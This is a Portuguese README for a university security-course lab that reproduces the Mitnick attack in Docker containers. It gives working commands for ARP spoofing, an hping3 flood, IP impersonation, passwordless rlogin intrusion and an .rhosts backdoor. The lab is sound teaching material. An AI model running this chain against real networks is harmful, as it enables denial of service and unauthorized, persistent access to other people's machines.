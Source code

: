 # Mitnick Attack

## **Requisitos**

- docker
- docker compose

## **Contexto**

Este é o trabalho para a disciplina de Segurança Computacional da Universidade Federal do Paraná. O objetivo é reproduzir o ataque de Kevin Mitnick e demonstrar que é possível obter acesso a uma rede interna sem a necessidade de um ataque de força bruta.

***

## [Entendendo o ataque de Mitnick](https://seedsecuritylabs.org/Labs_16.04/PDF/Mitnick_Attack.pdf)

Basta seguir o link acima.

***

## **Entendendo nossa versão do ataque**

### **estrutura geral**

Nossa topologia consistirá de 3 containers docker:

1. [attacker](./docker-compose.yml#L29)
2. [trusted_server](./docker-compose.yml#L17)
3. [x-terminal](./docker-compose.yml#L5)

Os três containers estão na mesma rede e conseguem se enxergar. Entretanto, existe uma relação de confiança entre o trusted_server e o x-terminal. O x-terminal é um terminal que só pode ser acessado, sem a necessidade de senha, a partir do trusted_server.

O sistema de acesso remoto será feito usando rlogin.

### **x-terminal**

A máquina x-terminal possui um usuário chamado "fontoura" com senha "fontoura".

### **attacker**

A máquina attacker é uma máquina que está tentando acessar o x-terminal. Ela não tem acesso direto ao x-terminal mas tem acesso a rede interna.

### **trusted_server**

A máquina trusted_server é uma máquina que tem acesso direto ao x-terminal. Ela é a única máquina que pode acessar o x-terminal.

A largura de banda do trusted_server é limitada, para simular uma interface de rede lenta e sucetível a ataques de negação de serviço.

### **Ataque**

O ataque será feito em 5 etapas:

1. **Arp Spoofing**
2. **Negação de serviço**
3. **Personificação**
4. **Invasão**
5. **Backdoor**

Cada etapa será abordada em detalhes a seguir.

***

## **Como executar**

1. **Iniciando as máquinas**

    ```bash
    docker-compose up -d
    ```

2. **Acessando as máquinas**

    Para acessar cada uma das máquinas. Em três terminais diferentes, execute os seguintes comandos, um em cada terminal:

    ```bash
    docker exec -it trusted_server bash
    docker exec -it attacker bash
    docker exec -it victim bash
    ```

    Para explorar a relação de confiança entre o trusted_server e o x-terminal, execute o seguinte comando no terminal do trusted_server:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Isso fará com que o usuário fontoura seja logado no x-terminal sem a necessidade de uma senha.

    Agora, para verificar que o x-terminal não pode ser acessado por outras máquinas, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker não é o trusted_server, o login necessitará de uma senha.

    **Obs.:** Em alguns cenários o docker manipula o iptables da máquina host. Caso sua politica de FORWARD esteja DROP, execute: `sudo iptables -P FORWARD ACCEPT`.

    Para verificar a politica de FORWARD, execute: `sudo iptables -L FORWARD`.

3. **Realizando o arp spoofing**

    Para realizar o arp spoofing, execute o seguinte comando no terminal do attacker:

    ```bash
    arpspoof -i eth0 -t 172.28.1.2 172.28.1.3
    ```

    O comando acima faz com que o attacker se passe pelo trusted_server para o x-terminal. Envenenando a tabela arp do x-terminal.

    É possível verificar que o arp spoofing foi realizado com sucesso executando o seguinte comando no terminal do x-terminal:

    ```bash
    arp -a
    ```

    Podemos ver que o trusted-server está na tabela arp do x-terminal com o endereço MAC do attacker.

4. **Realizando a negação de serviço**

    Para realizar a negação de serviço, execute o seguinte comando no terminal do attacker:

    ```bash
    hping3 --flood --rand-source 172.28.1.3
    ```

    O comando fará um flood de pacotes no trusted_server. O objetivo é saturar a largura de banda do trusted_server, fazendo com que ele não consiga mais responder as requisições do x-terminal ou se comunicar com a rede.

5. **Realizando a personificação**

    Para realizar a personificação, iremos mudar o IP do attacker para o IP do trusted_server. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.3
    ```

    Agora, o attacker está se passando pelo trusted_server para o x-terminal.

6. **Invadindo**

    Para verificar que a personificação foi realizada com sucesso, podemos tentar realizar o login sem senha em x-terminal. A partir do attacker, execute o seguinte comando:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    O comando acima tentará realizar o login no x-terminal. Como o attacker está se passando pelo trusted_server, o login será realizado com sucesso e o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

7. **configurando o backdoor**

    Para abrir a conexão através do rlogin ao x-terminal para o attacker, execute o seguinte comando no terminal do x-terminal:

    ```bash
    echo '172.28.1.4 root' >> /home/fontoura/.rhosts
    ```

    Isso permitirá que o attacker se logue no x-terminal sem a necessidade de uma senha.

8. **Conclusão**

    Com o backdoor configurado, podemos retornar o IP do attacker para o seu IP original. Para isso, execute o seguinte comando no terminal do attacker:

    ```bash
    ifconfig eth0 172.28.1.4
    ```

    Para verificar que o backdoor está funcionando, execute o seguinte comando no terminal do attacker:

    ```bash
    rlogin -l fontoura x-terminal
    ```

    Se o backdoor estiver funcionando, o usuário fontoura será logado no x-terminal sem a necessidade de uma senha.

    Para conferir que os pacotes não estão passando pelo trusted_server, execute o seguinte comando no terminal do attacker:

    ```bash
    tcpdump -i eth0 tcp port 513
    ```

    O comando acima irá capturar os pacotes que estão sendo enviados para o x-terminal. Como o attacker está se passando pelo trusted_server, os pacotes não devem passar pelo trusted_server.

***

## Roadmap

- [X] colocar as maquinas na mesma rede
- [X] derrubar o trusted server
- [X] personificar ip e mac do trusted server
- [X] fazer rlogin no x-terminal através do attacker
- [ ] conferir se os pacotes estão sendo enviados para o trusted server
- [ ] fechar o x-terminal para ser acessado apenas pelo trusted server
- [ ] fazer o backdoor de forma que fique aberto para toda a rede
